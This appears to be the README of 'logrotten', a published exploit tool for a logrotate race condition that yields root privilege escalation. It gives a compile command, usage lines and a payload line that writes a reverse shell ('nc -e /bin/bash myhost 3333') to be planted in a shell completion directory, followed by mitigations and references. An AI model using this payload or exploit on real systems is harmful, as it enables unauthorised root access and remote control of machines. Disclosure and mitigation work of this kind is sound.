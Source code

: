 # Winning a race condition in logrotate to elevate privileges

## Brief description
  - logrotate is prone to a race condition after renaming the logfile.
  - If logrotate is executed as root, with option that creates a 
    file ( like create, copy, compress, etc.) and the user is in control 
    of the logfile path, it is possible to abuse a race-condition to write 
    files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
 
## Precondition for privilege escalation
  - Logrotate has to be executed as root
  - The logpath needs to be in control of the attacker
  - Any option that creates files is set in the logrotate configuration

## Tested version
  - Debian GNU/Linux 9.5 (stretch)
  - Amazon Linux 2 AMI (HVM)
  - Ubuntu 18.04.1
  - logrotate 3.8.6
  - logrotate 3.11.0
  - logrotate 3.15.0
  - logrotate 3.18.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; then (/bin/nc -e /bin/bash myhost 3333 &); fi" > payloadfile
```

## Run exploit 

If "create"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile /tmp/log/pwnme.log
```

If "compress"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
```


## Known Problems
  - It was hard to win the race inside a docker container or on a lvm2-volume. This version of logrotten improves the reliability.

## Mitigation
  - make sure that logpath is owned by root
  - use option "su" in logrotate.cfg
  - use selinux or apparmor

## Author
  - Wolfgang Hotwagner

## References
  - https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges
  - https://github.com/whotwagner/logrotten
  - https://www.ait.ac.at/themen/cyber-security/ait-sa-20190930-01/
  - https://tech.feedyourhead.at/content/privilege-escalation-in-groonga-httpd

